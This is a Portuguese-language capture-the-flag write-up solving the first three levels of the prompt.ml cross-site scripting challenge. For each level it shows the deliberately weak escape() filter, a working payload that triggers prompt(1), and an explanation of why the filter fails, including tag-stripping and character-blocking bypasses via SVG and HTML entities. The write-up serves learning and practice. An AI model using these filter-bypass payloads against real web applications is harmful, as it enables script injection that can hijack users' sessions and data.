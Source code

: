# Cross-site scripting (XSS) 
###### Solved by @Mayaracar2
> This is a CTF about JavaScript analysis, xss script
## Desafio: Prompt.ml
### Sobre o desafio:
O prompt.ml é uma série de desafios de XSS (Cross-Site Scripting) organizada em níveis, cada um apresentando uma função escape() diferente que impõe filtros específicos na entrada do usuário, e tem como objetivo explorar vulnerabilidades para conseguir rodar código JavaScript, usando o prompt(1) como prova de que o XSS foi bem sucedido.
- [Página do desafio](https://prompt.ml/0)
  
## Soluções:
### Fase 0
Este é o código dado:

```bash
 function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}        
```
Este código é uma função que tem como objetivo criar uma string HTML contendo um elemento de input, porém o input é inserido diretamente no HTML sem escapar caracteres perigosos como `>`, `<script>`, entre outros, o que permite que um atacante quebre o atributo `value` e injete código arbitrário.

Para explorarmos essa vulnerabilidade usaremos:

```bash
"><script>prompt(1)</script>`
```

Por que funciona?

-Fecha o atributo value usando `>`, escapando do contexto onde o conteúdo deveria ser tratado apenas como texto.

-Em seguida, ele insere uma tag `<script>`, que o navegador reconhece e executa como código JavaScript, visto que a função não realiza nenhum filtro ou escape dos caracteres especiais (<, >, "), o navegador interpreta a injeção como parte do HTML, em vez de simples texto, permitindo a execução do script malicioso.

### Fase 1
Este é o código dado:

```bash
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}         
```
Neste código, a função recebe um input e remove todas as tags HTML usando uma expressão regular (stripTagsRE).

Para explorarmos essa vulnerabilidade usaremos:

```bash
<svg/onload=prompt(1)
```

Por que funciona?

`<svg/`: A regex falha em detectá-lo como tag devido à sua sintaxe incomum, porém passa "ileso".

`onload=prompt(1)`: Atributo de evento JavaScript que é disparado, executando o prompt(1).

### Fase 2
Este é o código dado:

```bash
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}        
```

Nesse código, tem uma função de escape que remove caracteres específicos como `(=` e `()` de uma string de entrada.

Para explorarmos essa vulnerabilidade usaremos:

```bash
<svg><script>prompt&#40;1)</script>
```

Por que funciona?

`<svg>`: Utilizado como uma "camuflagem", na qual a tag é permitida pelo navegador, ativando o modo SVG e dentro dele, é possivel rodar o <script> normalmente.

`prompt&#40;1)`: O `&#40;` é decodificado pelo navegador como ( , com base no  [HTML entities](https://www.freeformatter.com/html-entities.html)

&#112; → p

&#114; → r

&#111; → o

&#109; → m

&#112; → p

&#116; → t

&#40; → (

&#49; → 1

&#41; → )
